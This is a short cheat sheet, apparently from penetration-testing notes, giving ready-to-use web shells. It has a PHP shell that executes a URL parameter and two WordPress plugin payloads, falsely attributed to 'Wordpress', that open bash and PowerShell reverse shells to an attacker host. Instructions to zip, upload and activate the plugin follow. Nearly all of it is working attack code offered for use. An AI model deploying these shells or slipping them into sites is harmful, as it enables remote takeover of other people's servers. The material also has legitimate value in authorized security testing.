 title: Web Shells

# Simple PHP

Simple PHP webshell, add `?cmd={command}` to the URL.

```php
<?php
echo "You entered <pre>" . $_GET['cmd'];
system($_GET['cmd']);
?>
```

# Wordpress

You can abuse the wordpress plugin feature to get a reverse shell if you have access to install plugins.

* Linux Host
```php
<?php

/**
 *  Plugin Name: Wordpress Maint Shell
 *  Author: Wordpress
 **/ 
exec("/bin/bash -c 'bash -i >& /dev/tcp/{IP-ADDRESS}/{PORT} 0>&1'")
?>
```

* Windows Host ( powershell )
```php
<?php

/**
 *  Plugin Name: Wordpress Maint Shell
 *  Author: Wordpress
 **/ 
exec("powershell -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('10.9.5.198',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'");
?>
```
Save the above to a file, compress into a `.zip` archive and then upload & activate.